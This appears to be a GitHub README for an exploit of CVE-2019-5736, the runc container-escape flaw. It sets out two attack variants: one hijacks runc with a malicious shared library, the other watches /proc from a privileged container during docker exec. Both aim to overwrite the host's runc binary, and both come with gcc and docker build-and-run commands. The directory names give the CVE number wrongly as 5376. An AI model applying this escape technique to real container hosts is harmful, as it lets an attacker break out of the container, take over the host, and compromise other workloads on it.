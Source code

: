 ### Exploit for CVE-2019-5736 

#### Version 1 (inspired by original idea [DragonSector](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html))
use a malicious.so(which used by runc) with  malicious entry point (like #!/proc/self/exe) to hijack the execution of runc, and then open '/proc/self/exe' to hold the file descriptor. <del>Then 'fork-exec' to run another process, and the child process will inherit the file descriptor.  Finally, the child process is able to write to the fd after the runc exits.</del>  Then 'exec' to run another process to unlink /proc/self/exe to runc, making runc writable. Also, the file descriptors will pass on to the new process. Finally, the new process can overwrite runc by the '/proc/self/fd/*'

> Notes:

> do not need privileged container;

> need a malicious entry point program. It's no problem for ```docker run```, but when running ```docker exec```, it has to run that specific program.


* build and run 

		cd CVE-2019-5376/v1
		gcc run.c -o run -static
		gcc run.c -o libseccomp.so.2 -shared -fPIC
		docker build -t cve-2019-5376-v1 .
		docker run cve-2019-5376-v1


#### Version 2
start the malicious container first, and run a process (in a loop) to monitor new processes in /proc. Once finding a new one, open  '/proc/{pid}/exe' to hold the file descriptor. Then it's the same like above.

> Notes:

> need privileged container

> works on every ```docker exec``` command towards the container, but will not work when using ```docker run``` to start the new container

* build and run 

		cd CVE-2019-5376/v2
		gcc run.c -o run -static
		docker build -t cve-2019-5376-v2 .
		docker run -it --privileged --name test_instance cve-2019-5376-v2
		
		# open another terminal, and run docker exec
		docker exec -it test_instance bash
---- 
